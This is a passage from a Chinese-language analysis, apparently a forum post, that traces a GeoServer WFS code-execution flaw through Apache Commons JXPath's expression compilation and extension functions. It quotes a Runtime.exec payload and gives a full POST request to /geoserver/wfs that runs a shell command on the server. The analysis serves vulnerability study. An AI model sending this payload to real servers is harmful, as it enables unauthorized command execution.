 ![image-20240703180031295](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-146459cb5cbbcb27060c39e31bef3108182f8b83.png)

在这个evaluate()方法里，调用了一个get方法，accessor是FeaturePropertyAccessor的实例。如果分析漏洞是时候是搜索所有FeaturePropertyAccessor的引用，根本没办法搜到，CodeQL这类静态分析工具来分析漏洞时就可能会错过

回到get方法

![image-20240703180644333](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-0ccc33707a5e8ef4605d780fb1e718b12010c961.png)

这里先获取context，然后调用`iteratePointers`方法，

![image-20240703205401744](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-09461deac28c6f31cb4e784a23f63bea1cf6f39a.png)

跟进`this.compileExpression`

![image-20240703205511833](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-3fbfa75959f71c04bcbf6f019b1b6f4229dbad60.png)

对传入的xpath进行编译,如果前面编译过了，这里直接返回

往下就来到了`org.apache.commons.jxpath.ri.compiler.Expression`这个类的`iteratePointers`方法

![image-20240703210552154](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-21f206d925c38b042004773805f03fc9bcc3410c.png)

这个会根据刚刚编译返回的对象，跳转到对应的compute方法

因为传入的`valueReference=sssss`,会跳转到`org.apache.commons.jxpath.ri.compiler.LocationPath`的compute方法

![image-20240703212038558](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-795fcfe787538c31e7b84d8eebe3d21d468204af.png)

如果传入的`valueReference=exec(java.lang.Runtime.getRuntime(),'touch /tmp/pwn')` （payload来源为<https://tttang.com/archive/1771/>）

则跳转到`org.apache.commons.jxpath.ri.compiler.ExtensionFunction的compute`

![image-20240703211445191](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-998efb3417eb871fbb4b18e870d3de703a635488.png)

继续跟进，来到computeValue

![image-20240703211554584](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-b7da425c00686785504478545f7dc2b64722d846.png)

这里获得了org.apache.commons.jxpath.Function对应的这个实例后，回去调用具体的invoke的实现

运行结果

![image-20240703212252759](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-979e345e155faf20f13fd072430b1ecb330282a8.png)

根据官网教程，还可以使用POST请求

```http
POST /geoserver/wfs HTTP/1.1  
Host: 127.0.0.1:8080  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0 ldwk  
Accept: \*/\*Accept-Language: en-US,en;q=0.5Content-Length: 329  
​  
<wfs:GetPropertyValue service='WFS' version='2.0.0'xmlns:topp='http://www.openplans.org/topp'xmlns:fes='http://www.opengis.net/fes/2.0'xmlns:wfs='http://www.opengis.net/wfs/2.0'valueReference='exec(java.lang.Runtime.getRuntime(),"touch /tmp/pwn")'><wfs:Query typeNames='topp:states'/>  
</wfs:GetPropertyValue>
```
